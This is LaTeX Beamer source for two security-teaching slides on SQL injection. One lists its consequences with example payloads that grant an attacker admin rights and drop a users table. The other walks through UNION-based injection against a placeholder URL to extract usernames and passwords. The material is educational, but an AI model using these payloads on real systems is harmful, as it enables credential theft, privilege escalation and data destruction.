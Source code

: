 \documentclass{beamer}
\def\emptyline{\vspace{10pt}}
\begin{document}
\begin{frame}
\frametitle{SQL Injection -- Consequences}

SQL injection attacks can have \alert{devastating consequences}:

\begin{itemize}
\item \textbf{Reading confidential data}: passwords, personal information, credit card numbers.
\item \textbf{Modifying data}:
\begin{center}
\texttt{'; UPDATE users SET role='admin' WHERE name='attacker' -{}-}
\end{center}
\item \textbf{Deleting data}:
\begin{center}
\texttt{'; DROP TABLE users -{}-}
\end{center}
\item \textbf{Authentication bypass}: access without a password.
\item \textbf{Command execution}: on some DBMS (via \texttt{xp\_cmdshell} on SQL Server, \texttt{LOAD\_FILE} on MySQL).
\end{itemize}
\end{frame}


\subsection{Advanced Techniques}

\begin{frame}[fragile]
\frametitle{SQL Injection -- UNION-based (Step-by-Step)}

\textbf{Step 1:} Determine the number of columns with \texttt{ORDER BY}:
\begin{lstlisting}[basicstyle=\ttfamily\scriptsize,frame=single]
http://site.com/product?id=1 ORDER BY 1--    (OK)
http://site.com/product?id=1 ORDER BY 2--    (OK)
http://site.com/product?id=1 ORDER BY 3--    (Error!)
\end{lstlisting}
$\rightarrow$ The original query has \textbf{2 columns}.

\emptyline
\textbf{Step 2:} Use \texttt{UNION SELECT} to extract data:
\begin{lstlisting}[basicstyle=\ttfamily\scriptsize,frame=single]
http://site.com/product?id=-1 UNION SELECT Username, Password
                                     FROM t_user --
\end{lstlisting}

\begin{itemize}
\item \texttt{id=-1}: no product matches $\rightarrow$ only the \texttt{UNION} results are displayed.
\item The attacker can thus \alert{extract} any table: users, orders, banking data...
\end{itemize}
\end{frame}
\end{document}
